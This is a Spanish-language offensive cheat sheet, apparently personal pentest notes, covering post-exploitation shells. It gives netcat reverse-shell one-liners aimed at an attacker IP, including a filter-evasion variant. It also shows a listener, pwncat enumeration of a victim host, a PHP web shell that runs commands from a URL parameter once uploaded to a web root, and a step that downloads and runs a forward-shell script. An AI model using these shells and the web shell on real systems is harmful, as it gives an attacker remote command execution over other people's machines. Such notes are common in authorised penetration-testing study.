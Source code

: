 ## Otras Revershell 

```bash 
❯ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> 443 >/tmp/f          # Podemos usar este comando para hacer una Revershell desde una bash en la maquina victima 
❯ r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4242 >/tmp/f   # Evadir filtros

# Nos debemos de poner en escucha antes de esta manera
❯ nc -nlvp 443                   # Escucha en la maquina de atacante
```

## Pwncat 

```bash 
❯ pwncat-cs -lp 443                         # Podemos usar esta herramienta llamada 'Pwncat'
	❯ run enumerate                        # Enumera todo el sistema 
	❯ run enumerate.user                   # Enumeras los usuarios
	❯ run enumerate.system.network         # Enumeras las interfaces de la maquina 
	❯ back                                 # Nos coloca en la ruta de la terminal de la victima
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>
```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahí pode colocar comandos y conectarnos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```